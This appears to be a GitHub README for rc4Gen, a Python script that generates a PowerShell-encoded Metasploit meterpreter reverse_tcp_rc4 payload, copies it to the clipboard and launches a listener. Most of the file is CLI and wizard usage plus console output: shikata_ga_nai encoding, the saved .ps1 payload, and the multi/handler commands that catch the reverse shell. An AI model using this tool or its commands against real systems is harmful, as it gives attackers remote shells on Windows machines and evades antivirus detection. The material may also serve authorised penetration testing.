 # rc4Gen
    This is a Unicorn like script that...
    Generates a MSF Reverse TCP RC4 payload encoded in Powershell.
    Additionally, it will copy the payload to your clipboard and automagically launch the MSF listener.
    rc4Gen.py supports both command-line parameters and a wizard with interactive menu driven options.
***
Installation:

    git clone 
    cd rc4Gen
    python rc4Gen.py

***
Default Values:

    If a parameter is not defined it's default value will be choosen.
    Default values listed below.
    
    lport = '443'
    rc4Password = 'rc4M4g1c'
    verbose = 'off'
    listener = 'on'
    
***
Usage(CLI):

    python rc4Gen.py --lhost=192.168.1.18 --lport=447 --verbose=on --listener=off
***
Usage(Wizard):

    External IP: 100.255.255.255
    Internal IP: 10.37.242.7

    You did not specifiy the LHOST, wizard menu has launched:

    Enter LHOST for payload[100.255.255.255]:10.37.242.7
    ENTERED: "10.37.242.7"

    Enter LPORT for payload[443]:
    ENTERED: "443"

    Enter RC4PASSWORD for payload[rc4M4g1c]:
    ENTERED: "rc4M4g1c"

    TIP: Verbosity [ON] will print payload to STDOUT.
    TIP: Verbosity [OFF] will copy payload to Clipboard.
    Verbosity[OFF]:
    ENTERED: "OFF"

    No platform was selected, choosing Msf::Module::Platform::Windows from the payload
    No Arch selected, selecting Arch: x86 from the payload
    Found 1 compatible encoders
    Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
    x86/shikata_ga_nai succeeded with size 421 (iteration=0)
    x86/shikata_ga_nai chosen with final size 421
    Payload size: 421 bytes
    Saved as: rc4_payload.ps1

    Payload Copied to Clipboard:

    PAYLOAD: reverse_tcp_rc4
    LHOST: 10.37.242.7
    LPORT: 443
    RC4PASSWORD: rc4M4g1c
    TIP: Listener [ON] will automagically launch a MSF listener.
    listener[ON]:
    ENTERED: "ON"

    [*] Processing rc4_listener.rc for ERB directives.
    resource (rc4_listener.rc)> use multi/handler
    resource (rc4_listener.rc)> set PAYLOAD windows/meterpreter/reverse_tcp_rc4
    PAYLOAD => windows/meterpreter/reverse_tcp_rc4
    resource (rc4_listener.rc)> set LHOST 10.37.242.7
    LHOST => 10.37.242.7
    resource (rc4_listener.rc)> set LPORT 443
    LPORT => 443
    resource (rc4_listener.rc)> set Rc4PASSWORD rc4M4g1c
    Rc4PASSWORD => rc4M4g1c
    resource (rc4_listener.rc)> set ExitOnSession false
    ExitOnSession => false
    resource (rc4_listener.rc)> set AutoRunScript multi_console_command -rcautorun_commands.rc
    AutoRunScript => multi_console_command -rcautorun_commands.rc
    resource (rc4_listener.rc)> exploit -j -z
    [*] Exploit running as background job.

    [*] Started reverse TCP handler on 10.37.242.7:443 
    [*] Starting the payload handler...
    msf exploit(handler) > exit
        ...
***
To Do:

    Add try/expect statment for the msfpro/msvenom alternate path
    Create help function.
    Complete README.md
